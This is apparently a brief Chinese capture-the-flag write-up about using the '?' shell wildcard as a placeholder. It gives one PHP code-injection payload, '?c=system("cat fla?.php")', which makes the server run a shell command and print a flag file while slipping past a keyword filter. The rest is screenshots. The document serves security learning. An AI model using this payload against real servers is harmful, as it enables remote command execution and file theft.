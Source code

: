 # 知识点
?表示一个占位符

# 思路
```http
?c=system("cat%20fla?.php");
```
![image.png](./images/20231017_2350377885.png)<br />![image.png](./images/20231017_2350388099.png)<br />![image.png](./images/20231017_2350397467.png)<br />![image.png](./images/20231017_2350417091.png)
